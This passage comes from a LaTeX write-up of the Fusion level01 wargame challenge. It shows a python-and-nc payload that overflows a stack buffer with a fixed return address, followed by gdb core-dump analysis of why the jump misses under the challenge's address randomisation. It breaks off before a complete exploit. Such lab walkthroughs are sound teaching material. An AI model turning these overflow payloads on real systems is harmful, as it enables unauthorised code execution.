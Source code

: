 Back to the challenge at hand, let's simply try our code blindly
and see what happens. We know the program is largely the same, 
so let's see how far the old tricks get us.

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1\n" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 1302]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffff995 in ?? ()
(gdb) i r esp
esp            0xbfe9f490       0xbfe9f490
\end{lstlisting}

Alright, so we still redirect execution as expected, but we
didn't crash on a breakpoint trap like last time. Instead we
just die with a typical segfault. Comparing our instruction
pointer with our stack pointer, it becomes clear what's happened:
we're not jumping to where our shellcode is! In fact, since
the stack grows down, we aren't even jumping into the stack of the function!

So now, we have to deal with this challenge's psuedo-ASLR\footnote{I say psuedo because I've yet to see the stack pointer change between executions. While the fusion VM certainly has ASLR enabled, and the stack pointer changes after a reboot, something's not quite right in however ASLR was implemented on this challenge.}.
Taking the lead of Matt Andreko\footnote{http://www.mattandreko.com/2012/07/exploit-exercises-fusion-01.html},
we will use some code reuse to insulate ourselves from having to deal with
ASLR directly. Let's do some more exploring with our coredump:

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1\n" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 2146]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffff995 in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xb76d98d0       -1217554224
edx            0xbfe9f490       -1075186544
ebx            0xb7851ff4       -1216012300
esp            0xbfe9f490       0xbfe9f490
ebp            0x41414141       0x41414141
esi            0xbfe9f544       -1075186364
edi            0x8049ed1        134520529
eip            0xbffff995       0xbffff995
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/x $esi
0xbfe9f544:     0x0acccc0a
(gdb) x/x $edx
0xbfe9f490:     0xbfe9f400
(gdb) x/x 0xbfe9f400
0xbfe9f400:     0x4141412f
(gdb) x/16x 0xbfe9f400-8
0xbfe9f3f8:     0x080484fc      0x00000200      0x4141412f      0x41414141
0xbfe9f408:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfe9f418:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfe9f428:     0x41414141      0x41414141      0x41414141      0x41414141
\end{lstlisting}


